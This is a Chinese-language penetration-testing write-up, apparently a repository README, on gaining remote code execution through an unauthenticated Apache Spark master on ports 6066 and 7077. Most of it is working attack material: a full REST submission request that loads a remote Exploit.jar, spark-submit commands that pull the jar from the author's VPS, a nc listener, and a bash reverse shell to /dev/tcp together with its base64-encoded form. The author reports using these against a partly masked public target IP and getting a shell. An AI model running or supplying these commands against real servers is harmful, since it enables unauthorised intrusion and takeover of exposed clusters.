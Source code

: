 # 0x01 打点发现
团队一起做项目，同事发现一个Apache Spark未授权页面，我这边尝试打点，遂有此文
# 0x02 初次尝试
目标地址：  http://182.61.xxx.xxx:8080  
网上搜索针对Apache Spark的漏洞复现，用POC直接打，不出意外的攻击失败  
（这里记录一下：阿里云vps开启nc监听时，需要加个参数n，即nc -lnvvvp 101.200.xx.xx 8888，具体原因未知）  
# 0x03 本地调试
本地搭建环境，使用vulhub项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
（这里记录一下：搭建环境时，发现端口被占用，netstat -antup查不到占用端口的pid和进程名，原因是权限不够，改用sudo netstat -antup可查到占用端口的pid和进程名，有时容易忽略使用sudo）  

环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)，能够成功访问，说明环境搭建成功  
访问端口6066，能够成功访问，而目标不能访问，说明目标关闭了端口6066  
当前漏洞的利用可通过2个端口：6066、7077（防守方容易忽略端口7077），且目标没关闭7077端口，又看到希望了  
首先测试本地6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
漏洞利用失败  

思考了一下，可能是目标不能访问github，导致获取不到Exploit.jar，将Exploit.jar放置到自己的vps上，修改request后，重新发送请求，成功获得响应  
响应中包含driverId的值，用响应中driverId的值替换下面driverId的值，访问如下地址
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
页面会显示成功执行后的结果  

测试本地7077端口的漏洞利用
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
（这里记录一下：下载spark-submit时不要下载源码包，要下载二进制安装包，否则会报错）  
查看执行结果还是通过上述方式，发现成功执行了命令  

通过端口7077反弹shell  
直接执行
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar "bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1"
```
vps上并没有收到反弹shell  

思考了一下，可能是bash反弹shell中特殊字符的问题，对payload进行base64编码，可通过此网站：http://www.jackson-t.ca/runtime-exec-payloads.html  
编码后，发送请求，仍然没有收到反弹shell

继续排查，查看Exploit.jar的源代码会发现，原作者是对命令进行逗号分隔，导致base64编码后的命令被逗号分隔，如下
```
String[] cmds = args[0].split(",");

bash -c {echo,YmFzaCAtaSA+JiAvZGxxxxxxxxxxxxEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
```
知道问题了，我们可以将逗号分隔改为下划线分隔，并打包为jar包，现成的jar包已经打包好，位于当前目录下  
（如果仔细看上面的burp请求，会发现我已经在命令之间加了一个下划线）    

再次执行后成功接收到反弹shell  
![image](./pic/1.png)  

# 参考链接：  
https://www.cnblogs.com/mutudou/p/14685277.html  
https://medium.com/@Wh0ale/apache-spark-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E-ada9eb02af65  
https://github.com/vulhub/vulhub/tree/master/spark/unacc  
https://github.com/aRe00t/rce-over-spark/blob/master/Exploit.java  
